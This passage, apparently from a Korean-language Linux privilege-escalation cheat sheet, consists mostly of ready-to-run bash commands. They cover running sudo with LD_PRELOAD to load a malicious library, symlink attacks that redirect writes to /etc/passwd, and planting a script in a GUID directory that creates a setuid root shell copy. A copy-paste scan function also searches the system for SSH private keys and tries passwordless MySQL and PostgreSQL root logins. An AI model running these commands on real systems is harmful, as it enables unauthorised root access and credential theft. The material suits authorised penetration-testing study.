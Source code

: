 ```bash
# 4. 실행
sudo LD_PRELOAD=/tmp/preload.so program_name
```

### 📁 World-writable 디렉토리 악용

```bash
# 1. World-writable 디렉토리 찾기
find / -type d -perm -002 2>/dev/null | grep -v proc

# 2. /tmp 스티키 비트 없을 때
ls -ld /tmp
# drwxrwxrwx (스티키 비트 없음)이면 악용 가능

# 3. 다른 사용자 프로세스가 사용하는 파일 교체
lsof | grep /tmp
ps aux | grep -E "(tmp|var)"

# 4. 심볼릭 링크 공격
ln -sf /etc/passwd /tmp/target_file
# 다른 프로세스가 /tmp/target_file에 쓸 때 /etc/passwd 수정됨
```

### 🔍 SUID/GUID 디렉토리 악용

```bash
# 1. SUID/GUID 디렉토리 찾기
find / -type d -perm -4000 -o -perm -2000 2>/dev/null

# 2. 그룹 쓰기 권한이 있는 GUID 디렉토리
find / -type d -perm -2000 -group $(id -gn) 2>/dev/null

# 3. 해당 디렉토리에 악성 스크립트 생성
echo '#!/bin/bash\ncp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > /guid_dir/script.sh
chmod +x /guid_dir/script.sh
```

## 🤖 자동화 도구 활용

### 🔍 설정 오류 종합 스캔

```bash
# 종합 misconfiguration 스캔 스크립트 (복붙용)
misconfig_scan() {
    echo "=== LINUX MISCONFIGURATION SCAN ==="

    echo "[+] File permissions check:"
    ls -la /etc/passwd /etc/shadow /etc/group 2>/dev/null

    echo -e "\n[+] World-writable files:"
    find / -type f -perm -002 2>/dev/null | head -10

    echo -e "\n[+] SUID/GUID files:"
    find / -type f \( -perm -4000 -o -perm -2000 \) 2>/dev/null | head -10

    echo -e "\n[+] User SSH keys:"
    find / -name "id_rsa*" -o -name "authorized_keys" 2>/dev/null

    echo -e "\n[+] Database access:"
    mysql -u root -e "SELECT 'MySQL root access successful';" 2>/dev/null
    psql -U postgres -c "SELECT 'PostgreSQL postgres access successful';" 2>/dev/null

    echo -e "\n[+] NFS exports:"
    cat /etc/exports 2>/dev/null
```